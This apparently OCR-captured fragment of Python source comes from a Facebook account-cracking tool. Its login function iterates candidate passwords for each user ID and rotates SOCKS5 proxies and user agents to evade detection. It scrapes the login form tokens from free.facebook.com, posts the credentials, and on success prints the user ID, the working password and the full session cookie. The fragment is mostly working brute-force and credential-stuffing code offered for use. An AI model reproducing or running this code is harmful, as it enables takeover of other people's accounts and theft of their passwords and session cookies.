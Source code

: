     sh = input(f'\n\n    {M}Go TO MAIN MENU [ Y/N] :{H}  ')
    if sh =='y':
        check_update()
    elif sh =='Y':
        check_update()
    else:
        check_update()
def check_update():
    os.system("")
    os.system("")
    os.system("")
    
    #MAIN OK METHOD
    
def m(uid,pwx,tl):
    global loop
    global ok
    global agents
    try:
        for ps in pwx:
            nip=random.choice(prox)
            proxs= {'http': 'socks5://'+nip}
            bi = random.choice([A])
            session = requests.Session()
            ff = random.choice(ugen)
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header = {"authority": 'free.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=0.9',
            "cache-control": 'no-cache',
            "pragma": 'no-cache',
            "referer": 'https://free.facebook.com/',
            "sec-ch-ua": '".Not/A)Brand";v="99", "Google Chrome";v="103", "Chromium";v="103"',
            "sec-ch-ua-mobile": '?0',
            "sec-ch-ua-platform":'"Windows"',
            "sec-fetch-dest": 'manifest',
            "sec-fetch-mode": 'cors',
            "sec-fetch-site": 'same-origin',
            "user-agent":ff}
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                uid = coki[151:166]
                #os.system("play-audio SKK_OK.mp3")
                print('\033[1;92m[SKK-OK] '+uid+' | '+ps+'\033[0;97m')
                #print(f'{B}[NUMBER📳] {K}'+uid+'  ')
                print(f'{B}[COOKIE💉] {H}'+coki)
